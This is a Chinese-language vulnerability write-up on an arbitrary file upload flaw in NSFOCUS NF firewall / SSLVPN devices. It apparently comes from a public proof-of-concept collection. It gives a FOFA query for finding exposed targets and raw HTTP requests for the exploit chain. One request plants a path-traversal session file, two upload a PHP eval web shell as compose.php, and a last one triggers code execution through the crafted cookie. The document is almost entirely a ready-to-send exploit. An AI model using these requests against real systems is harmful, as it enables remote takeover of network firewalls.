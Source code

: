 # 绿盟 NF下一代防火墙 任意文件上传漏洞

## 漏洞描述

绿盟 SSLVPN 存在任意文件上传漏洞，攻击者通过发送特殊的请求包可以获取服务器权限，进行远程命令执行

## 漏洞影响

<a-checkbox checked>绿盟 SSLVPN </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="NSFOCUS-下一代防火墙"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1658884417477-a47362c4-646d-464e-a094-9e36a53165d6.png)

出现漏洞的端口为 8081 

```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=1d52ba2a11ad8a915eddab1a0e85acd9
Host: 

--1d52ba2a11ad8a915eddab1a0e85acd9
Content-Disposition: form-data; name="file"; filename="sess_82c13f359d0dd8f51c29d658a9c8ac71"

lang|s:52:"../../../../../../../../../../../../../../../../tmp/";

--1d52ba2a11ad8a915eddab1a0e85acd9--
```

![img](../../../.vuepress/public/img/1684385461375-d54ce083-ef90-4946-b00a-2422bf9169a8.png)

```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```

![img](../../../.vuepress/public/img/1684385491176-51d6c42a-68bd-4238-9716-b65ff76cd389.png)

```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```

![img](../../../.vuepress/public/img/1684385511983-b0ced531-df95-4ca9-a34f-f0704fe7e98d.png)

```python
POST /mail/include/header_main.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID_NF=82c13f359d0dd8f51c29d658a9c8ac71
Host:

cmd=phpinfo();
```